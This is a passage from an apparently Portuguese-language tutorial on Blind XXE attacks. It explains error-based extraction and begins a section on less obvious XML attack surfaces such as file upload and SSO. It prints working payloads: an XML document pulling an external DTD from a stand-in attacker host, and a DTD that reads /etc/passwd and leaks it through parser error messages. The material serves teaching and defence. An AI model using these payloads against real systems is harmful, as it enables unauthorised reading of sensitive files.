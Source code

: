 
O atacante simplesmente precisa de monitorizar os logs do seu servidor web para capturar a requisição recebida e extrair os dados do parâmetro de consulta. Esta técnica é extremamente eficaz, mas pode ser limitada por regras de firewall de saída (egress filtering) no servidor da vítima que podem bloquear conexões HTTP para destinos desconhecidos. Em alguns casos, outros protocolos como FTP podem ser usados para contornar estas restrições.

### Técnicas Baseadas em Erros para a Extração de Dados

Uma abordagem alternativa para explorar Blind XXE, que não requer um canal de comunicação out-of-band, é induzir o analisador de XML a gerar uma mensagem de erro que contenha os dados sensíveis. Este método só é eficaz se a aplicação estiver configurada para devolver mensagens de erro do analisador na sua resposta HTTP.

A técnica funciona manipulando as declarações de entidades de uma forma que cause uma falha de análise previsível. O ataque pode ser construído da seguinte forma, utilizando um DTD externo (ou, em casos mais complexos, reaproveitando um DTD local):

1. **Carga Inicial**: Semelhante ao ataque OOB, a carga inicial faz referência a um DTD externo alojado pelo atacante:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE data [<!ENTITY % dtd SYSTEM "http://atacante.com/error.dtd"> %dtd;]>
   <data>teste</data>
   ```
2. **DTD Externo para Geração de Erro**: O ficheiro `error.dtd` no servidor do atacante é projetado para causar um erro de análise que vaza informações. Conteúdo de `error.dtd`:
   ```xml
   <!ENTITY % ficheiro SYSTEM "file:///etc/passwd">
   <!ENTITY % erro "<!ENTITY % avaliar SYSTEM 'file:///ficheiro_inexistente/%ficheiro;'>">
   %erro;
   ```
3. **Mecanismo do Ataque**:
   - A entidade de parâmetro `%ficheiro;` lê o conteúdo do ficheiro sensível.
   - A entidade de parâmetro `%erro;` tenta declarar outra entidade de parâmetro, `avaliar`, que por sua vez tenta carregar um ficheiro de um caminho que inclui o conteúdo de `%ficheiro;`.
   - Como o caminho `file:///ficheiro_inexistente/root:x:0:0...` não existe no sistema de ficheiros, o analisador de XML irá falhar.
   - Se a aplicação estiver configurada para tal, ela pode devolver uma resposta HTTP contendo a mensagem de erro do analisador, que pode ser algo como: "Erro ao analisar XML: Não foi possível carregar a entidade externa 'file:///ficheiro_inexistente/root:x:0:0:root:/root:/bin/bash...'".

Esta técnica transforma o mecanismo de relatório de erros do analisador numa ferramenta de exfiltração de dados. A sua viabilidade depende inteiramente da verbosidade da gestão de erros da aplicação, mas quando funciona, é uma forma eficaz de extrair dados sem depender de conectividade de rede de saída.

## Seção 5: Identificando Superfícies de Ataque Não Convencionais

A vulnerabilidade XXE não está confinada a endpoints de API que explicitamente consomem dados XML. A superfície de ataque é, na realidade, muito mais ampla e subtil, estendendo-se a qualquer componente do sistema que analise XML, muitas vezes de formas inesperadas. Desenvolvedores e profissionais de segurança devem estar cientes de que funcionalidades aparentemente benignas, como o upload de ficheiros ou a autenticação via SSO, podem esconder processadores de XML vulneráveis.
